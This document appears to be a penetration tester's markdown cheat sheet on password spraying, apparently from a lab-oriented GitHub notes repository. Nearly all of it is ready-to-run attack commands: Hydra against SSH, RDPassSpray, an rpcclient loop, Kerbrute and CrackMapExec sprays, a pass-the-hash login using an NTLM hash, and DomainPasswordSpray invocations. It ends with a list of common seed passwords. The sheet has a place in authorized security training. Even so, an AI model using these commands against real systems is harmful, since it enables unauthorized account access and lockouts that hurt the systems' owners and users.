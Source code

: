 # Password Spraying

## Hydra
```
hydra -L usernames.txt -p Sprint2022 ssh://10.10.10.10
```

## RDPassSpray for RDP
[RDPassSpray Github](https://github.com/xFreed0m/RDPassSpray)

```
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
```

## RPCClient
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

## Kerbrute
Had issues with /etc/krb5.conf with Linux test, might need to modify conf file
Make sure your valid_users list is the proper format (fname,last_name, etc) not full email address

[Linux Kerberos Auth Against Windows](https://michlstechblog.info/blog/linux-kerberos-authentification-against-windows-active-directory/#more-1628)

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
.\kerbrute_Windows.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 .\valid_users.txt Welcome1  -o .\spray_success_kerbrute --safe
```

## Crackmapexec
Make sure your valid_users list is the proper format (fname,last_name, etc)

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 |grep +
sudo crackmapexec smb 172.16.5.0/23 -u administrator -H '88ad09182de639ccc6579eb0849751cf' --local-auth
```

## DomainPasswordSpray
```
## If you have access to the machine
C:\> . .\DomainPasswordSpray.ps1 or Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

## Using lists
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
Invoke-DomainPasswordSpray -UserList .\valid_users.txt -Domain inlanefreight.local -Password Welcome1 -OutFile spray_success_02 -ErrorAction SilentlyContinue
```

## Potential Starting Password Sprays
```
password
Password1
Passw0rd
Welcome1
AutumnYY
SpringYY
SummerYY
WinterYY
```

## SprayingToolkit
[SprayingToolkit Github](https://github.com/byt3bl33d3r/SprayingToolkit)

## MailSniper
[MailSniper Github](https://github.com/dafthack/MailSniper)

## DomainPasswordSpray
[Domain Password Spray](https://github.com/dafthack/DomainPasswordSpray)